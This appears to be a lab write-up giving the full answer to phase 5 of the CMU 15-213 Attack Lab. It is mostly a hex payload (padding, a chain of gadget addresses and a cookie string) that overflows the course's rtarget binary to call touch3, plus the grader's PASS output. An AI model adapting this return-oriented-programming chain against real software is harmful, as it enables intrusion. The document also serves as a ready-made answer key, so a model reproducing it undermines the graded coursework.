 
## PHASE 5

create a phase5.txt with the string below.
phase5.txt
---
00 00 00 00 00 00 00 00 // buffer
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
4c 1c 40 00 00 00 00 00
3e 1b 40 00 00 00 00 00
46 1b 40 00 00 00 00 00
48 00 00 00 00 00 00 00 // offset
fc 1b 40 00 00 00 00 00
a7 1b 40 00 00 00 00 00
ac 1b 40 00 00 00 00 00
76 1b 40 00 00 00 00 00
3e 1b 40 00 00 00 00 00
a0 1a 40 00 00 00 00 00	// touch3
31 31 37 66 64 30 36 31 // cookie
---

use the commands below to run it

linux> ./hex2raw < phase5.txt > 2018080106.rtarget.l2
linux ./rtarget -q -i 2018080106.rtarget.l2 


which should give you output similar to 
---
Cookie: 0x117fd061
Touch3!: You called touch3("117fd061")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 4C 1C 40 00 00 00 00 00 3E 1B 40 00 00 00 00 00 46 1B 40 00 00 00 00 00 48 00 00 00 00 00 00 00 FC 1B 40 00 00 00 00 00 A7 1B 40 00 00 00 00 00 AC 1B 40 00 00 00 00 00 76 1B 40 00 00 00 00 00 3E 1B 40 00 00 00 00 00 A0 1A 40 00 00 00 00 00 31 31 37 66 64 30 36 31
--- 


